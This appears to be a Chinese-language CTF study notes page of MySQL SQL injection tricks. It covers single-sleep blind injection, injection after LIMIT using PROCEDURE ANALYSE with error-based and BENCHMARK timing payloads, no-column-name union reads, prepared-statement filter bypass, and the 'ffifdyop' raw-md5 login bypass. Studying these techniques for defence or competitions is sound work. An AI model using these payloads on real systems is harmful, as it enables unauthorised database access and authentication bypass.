 - # 布尔盲注只Sleep一次
	- 利用子查询
		- ```sql
		  # 114514<1919810是布尔盲注点
		  select * from test order by (select 1 from (select sleep(if(114514<1919810,1,0)))b);
		  # 或者
		  select * from test where (select 1 from (select sleep(if(114514<1919810,1,0)))b);
		  ```
# 使用 handler 读取 table
	- ```sql
	  handler table open;
	  handler table read first;
	  handler table close;
	  ```
- # 向 ID 参数注入
	- 大概率是整型注入, 不用加引号
# Limit 后注入
	- 这种注入也不是很常见，依照 [https://rateip.com/blog/sql-injections-in-mysql-limit-clause/](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/) 来提一下
	  
	  ```
	  mysql> select * from admin where id >0 limit 0,1 $id
	  ```
	  
	  如何利用呢 大佬们已经给出方法了 用  `PROCEDURE ANALYSE`  配合报错注入,所以多看文档，如果你想提升下自己的水平
	  
	  ```
	  mysql> select * from admin where id >0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
	  ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
	  ERROR:
	  No query specified
	  ```
	  
	  这里延时只能使用 `BENCHMARK()`  如同
	  
	  ```
	  select * from admin where id >0 order by id limit 0,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,(if(1=1,benchmark(2000000,md5(404)),1)))),1);
	  ```
- # 预处理语句
	- ```sql
	  SET @sql = concat('select * from ', 'flag');
	  PREPARE name from @sql;
	  EXECUTE name;
	  DEALLOCATE PREPARE name;
	  ```
	  
	  传参
	  
	  ```sql
	  mysql> SET @s = 'SELECT SQRT(POW(?,2) + POW(?,2)) AS hypotenuse';
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> PREPARE stmt2 FROM @s;
	  Query OK, 0 rows affected (0.00 sec)
	  Statement prepared
	  
	  mysql> SET @c = 6;
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> SET @d = 8;
	  Query OK, 0 rows affected (0.00 sec)
	  
	  mysql> EXECUTE stmt2 USING @c, @d;
	  +------------+
	  | hypotenuse |
	  +------------+
	  |         10 |
	  +------------+
	  1 row in set (0.00 sec)
	  
	  mysql> DEALLOCATE PREPARE stmt2;
	  Query OK, 0 rows affected (0.00 sec)
	  ```
# 无列名注入
	- ```sql
	  select a from (select 1 as a, 2 as b union select * from test)x limit 1 offset 1 # offset 向下偏移几行，即读取除了(1,2)之外的第几行数据
	  ```
# mysqli_real_escape_string
	- 使用 mysqli_real_escape_string 处理的 string 在插入 mysql 后会变为原样
- # 表名加引号
	- 可以在表名上使用反引号，如：
	- ```sql
	  select name from `114514`
	  ```
# 大小写敏感
	- 用`utf8mb4_0900_as_cs`
# 同时使用 insert 和 or
	- ```mysql
	  insert into test (id, name) values (2, '0' or '1');
	  ```
- # 攻击where pass=md5($pass, true)
	- [参考](https://www.cnblogs.com/tqing/p/11852990.html)
	- `ffifdyop`在md5编码后会变成hex格式的`'or'6乱码`